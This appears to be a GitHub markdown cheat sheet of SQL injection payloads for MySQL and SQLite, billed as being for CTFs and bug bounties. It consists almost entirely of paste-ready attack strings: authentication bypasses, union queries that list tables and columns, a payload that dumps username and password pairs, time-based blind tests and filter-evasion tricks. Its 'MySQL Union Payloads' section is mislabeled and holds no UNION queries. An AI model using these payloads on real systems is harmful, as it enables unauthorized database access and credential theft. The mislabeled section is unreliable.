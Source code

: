 # 💉 SQL Injection Shortcut Commands Cheat Sheet

This cheat sheet provides commonly used SQL Injection (SQLi) payloads for both **MySQL** and **SQLite**. Perfect for CTFs, bug bounties, and ethical hacking.

---

## 📌 Table of Contents

- [💉 SQL Injection Shortcut Commands Cheat Sheet](#-sql-injection-shortcut-commands-cheat-sheet)
	- [📌 Table of Contents](#-table-of-contents)
		- [🔓 Basic](#-basic)
		- [🔍 Union-Based Injection](#-union-based-injection)
		- [⏱️ Time-Based Blind Injection](#️-time-based-blind-injection)
		- [📤 Data Extraction](#-data-extraction)
	- [🛠 Filter Bypass Tricks](#-filter-bypass-tricks)
	- [📚 Useful Functions](#-useful-functions)

---

### 🔓 Basic

**MySQL**

```sql
' OR '1'='1' --
' OR 1=1 --
' OR '1'='1' /*
admin' --
admin' #
' OR ''='
```

**SQLite**

```sql
' OR 1=1--
' OR 1 GLOB 1--
' OR 1 LIKE 1--
```

---

### 🔍 Union-Based Injection

**MySQL Union Payloads**

```sql
' OR 1=1--
' AND 1=1--
' AND 1=2--
```

**SQLite Union Payloads**

```sql
' UNION SELECT sqlite_version(), null--
' UNION SELECT name, sql FROM sqlite_master WHERE type='table'--
```

---

### ⏱️ Time-Based Blind Injection

**MySQL**

```sql
' OR IF(1=1, SLEEP(5), 0)--
' OR SLEEP(5)--
```

---

### 📤 Data Extraction

**MySQL**

```sql
' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()--
' UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name='users'--
' UNION SELECT 1, concat(username, ':', password) FROM users--
```

---

## 🛠 Filter Bypass Tricks

| Filtered | Bypass Example          |
| -------- | ----------------------- |
| or       | oR, o/\*\*/r, `         |
| and      | aNd, a/\*\*/Nd, &&      |
| =        | LIKE, GLOB, IN          |
| '        | " or %27 (URL encoding) |
| --       | #, --+, /\* \*/         |

---

## 📚 Useful Functions

| DBMS   | Functions / Keywords                   |
| ------ | -------------------------------------- |
| MySQL  | @@version, DATABASE(), USER(), SLEEP() |
| SQLite | sqlite_version(), sqlite_master, GLOB  |

---

